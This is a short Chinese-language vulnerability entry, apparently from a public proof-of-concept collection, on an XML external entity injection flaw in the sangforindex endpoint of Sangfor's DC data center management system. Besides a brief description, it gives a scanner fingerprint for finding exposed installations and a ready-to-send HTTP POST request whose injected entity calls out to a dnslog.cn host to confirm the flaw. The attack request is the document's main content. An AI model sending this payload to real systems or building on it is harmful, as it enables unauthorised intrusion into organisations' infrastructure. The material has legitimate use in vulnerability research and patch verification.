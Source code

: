 # 深信服 DC数据中心管理系统 sangforindex XML实体注入漏洞

## 漏洞描述

深信服 DC数据中心管理系统 sangforindex 接口存在XML实体注入漏洞，攻击者可以发送特定的请求包造成XML实体注入

## 漏洞影响

<a-checkbox checked>深信服 DC数据中心管理系统 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"SANGFOR 数据中心"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692061412640-89b0f89d-f4eb-4cec-8df7-42a0c36fe233.png)

验证POC

```plain
POST /src/sangforindex HTTP/1.1
Host: 
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
    <!ENTITY rootas SYSTEM "http://xgsg1k.dnslog.cn">
]>
<xxx>
&rootas;
</xxx>
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692061553187-836f8383-a0e4-419d-b6eb-a001f62a92d5.png)